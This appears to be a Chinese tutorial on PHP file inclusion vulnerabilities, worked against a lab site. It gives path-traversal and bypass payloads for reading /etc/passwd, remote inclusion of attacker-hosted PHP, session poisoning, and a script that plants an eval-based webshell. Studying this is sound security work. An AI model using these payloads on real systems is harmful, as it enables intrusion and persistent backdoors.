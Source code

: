### 一、漏洞原理
利用web程序对文件的动态调用的控制不严谨，从而传递恶意文件进行攻击
### 二、存在条件

1. 没有对文件参数进行控制
2. 参数为文件
### 三、漏洞分类

1.  远程文件包含(RFI，Remote File Inclusion): 通过url等协议读取远程文件
2.  本地文件包含（LFI，Local File Inclusion):读取服务器本地的文件
### 四、漏洞危害

1. 读取敏感数据
2. 获取shell
### 五、漏洞判定
#### 判定方法

1. 远程文件包含
> [http://192.168.11.140/vulnerabilities/fi/?page=https://www.baidu.com](http://192.168.11.140/vulnerabilities/fi/?page=https://www.baidu.com)

跳转到百度页面，说明包含该漏洞

2. 本地文件包含
> [http://192.168.11.140/vulnerabilities/fi/?page=../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd](http://192.168.11.140/vulnerabilities/fi/?page=../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd)

如果可以读取文件的内容，说明包含该漏洞

3. 使用burpsuite的主动扫描
#### 绕过

1. 双写绕过：针对对http://和https://等的过滤
> [http://192.168.11.140/vulnerabilities/fi/?page=hthttps://tps://www.baidu.com](http://192.168.11.140/vulnerabilities/fi/?page=hthttps://tps://www.baidu.com)


2. 绝对路径绕过: 针对../和..\\的过滤
> [http://192.168.11.140/vulnerabilities/fi/?page=/etc/passwd](http://192.168.11.140/vulnerabilities/fi/?page=/etc/passwd)


3. 关键字绕过: 针对关键字进行筛选的数据，如file*
> file:///etc/passwd 和  file1.php../../../../../../../../../../../../../../../../etc/passwd

#### 漏洞避免
> 使用白名单模式，明确哪些文件可以传递，但是会使程序失去灵活性

### 六、漏洞利用

1. 敏感信息获取
```php
<?php
  $filename  = $_GET['filename'];
	include($filename);
?>
```
直接读取本地敏感数据

2. 远程文件包含
```php
<?php
  $filename  = $_GET['filename'];
	include($filename); # 普通加载
  include($_GET['filename'] . ".html"); # 通过html限制
?>
```

- 对远程文件进行读取和解析，通常来传递后门
> [http://192.168.11.140/vulnerabilities/fi/?page=http://192.168.11.132:8000/2.php](http://192.168.11.140/vulnerabilities/fi/?page=http://192.168.11.132:8000/2.php)

- 针对html后缀限制的，可以使用截断符和注释符处理
> [http://192.168.11.140/test/3.php?filename=http://192.168.11.132:8000/2.php?](http://192.168.11.140/test/3.php?filename=http://192.168.11.132:8000/2.php?)


3. 通过session获取shell
```php
<?php
	session_start();
	$ctfs=$_GET['ctfs'];
	$_SESSION["username"]=$ctfs;
?>
```

- 利用session漏洞传递后门文件，[http://192.168.11.140/test/1.php?ctfs=%3C?php%20phpinfo();?%3E](http://192.168.11.140/test/1.php?ctfs=%3C?php%20phpinfo();?%3E)
- 利用文件包含漏洞，对文件进行调用[http://192.168.11.140/vulnerabilities/fi/?page=/var/lib/php/session/sess_uprqs1im29ems1is6bsd6g8k57](http://192.168.11.140/vulnerabilities/fi/?page=/var/lib/php/session/sess_uprqs1im29ems1is6bsd6g8k57)
> sessionid通过会话获取


4. 利用文件包含漏洞获得webshell
- 启动后门服务器，并编写生成后门脚本
```php
<?php
$a = "<?php 
					eval(\$_POST['123']);
        	echo __FILE__;
      ?>";
$b = fopen("a.php","w") or die("123!");
fwrite($b,$a);
fclose($b);
echo "大佬！木马已生成。 ";    
echo '<br/>';
?>
```
> 生成后门文件a.shell，内容为<?php eval(\$_POST['123'])?>

- 利用文件包含漏洞加载shell2.php,从而生成后门文件
> [http://192.168.11.142:84/lfi.php?filename=http://192.168.11.132:8000/shell2.php](http://192.168.11.142:84/lfi.php?filename=http://192.168.11.132:8000/shell2.php)

- 使用中国菜刀工具连接后门
